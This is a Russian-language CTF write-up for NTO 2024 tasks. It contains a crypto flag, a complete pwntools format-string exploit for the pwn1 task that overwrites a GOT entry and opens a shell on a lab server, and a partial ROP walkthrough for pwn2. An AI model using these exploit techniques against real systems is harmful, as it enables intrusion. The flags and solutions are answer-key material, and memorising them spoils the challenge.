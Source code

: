 Полноценный скрипт решения (использует sagemath и PyCryptodome) [прилагается](./crypto2.py)

`flag`: nto{50mb0dy_45k3d_m3_f0r_d1scr3t3_l0g_2}


## pwn1

Используем Ghidra для декомпиляции программы, видим format string vulnerability. Генерируем пейлоад, меняющий функцию exit в plt на функцию win, при помощи pwntools. Читем флаг: `cat flag`
```Python
from pwn import *

context.log_level = 'debug'
context.bits = 64


addr = 0x404018
value = 0x401156

payload = fmtstr_payload(6, {addr : value})

# con = process("./main")
con = remote("192.168.12.13", 1923)

con.send(payload + b"\n")

con.interactive()
```

`flag`: nto{easy_formt_string}

## pwn 2

Дизассемблируем файл с помощью Ghidra. Программа читает 500 байт на стек. Можно переписать адрес возврата.  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba6292fd-b10e-434c-aeba-5fe93ccf37b3)  
Также есть строка `"/bin/bash"`  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba89f41d-153c-423b-b065-58a2ef599b49)  
И rwx память после функции (с адреса `0x41000` до `0x42000`), большая часть которой - байты `0x00`.
`0x00, 0x00` дизассемблируется как `add [rax], al`. Также по адресу `0x41013` есть гаджет `add byte ptr [rax], al; syscall; ret` и по адресу `0x41018` - `pop rax; ret`.

Переполнив адрес возврата, поместим значение `0x410c3` в регистр rax, затем вызовем гаджет `add byte ptr [rax], al; syscall; ret` (syscall не нужен, но он не мешает) и по адресу `0x410c3` запишем инструкцию `ret`. До неё идёт много байтов `0x00`, которые означают инструкцию `add [rax], al`.

С помощью этого можно модифицировать некоторые байты в памяти и составить необходимый ROP-гаджет. Для этого я написал `genpb.py` и `gennpb.py`. Первый рассчитвает количество раз, которое надо вызвать `add [rax], al` чтобы преобразовать байт из нуля в нужное число (это не всегда возможно, в этом случае возвращается `-1`).

Второй скрипт делает аналогичные операции для 2-х файлов и печатает результаты в формате, подходящем для вставки в Python-код. Аргументы командной строки: `./gennpb.py <target_bytes> <start_addr> <curr_bytes>`.  
`target_bytes` - требуемая последовательность байт (файл) 
`start_addr` - последний байт адреса, с которого начинается запись  
`curr_bytes` - Текущее состояние байт (файл), можно указать `Nulls` если это байты `0x00`.
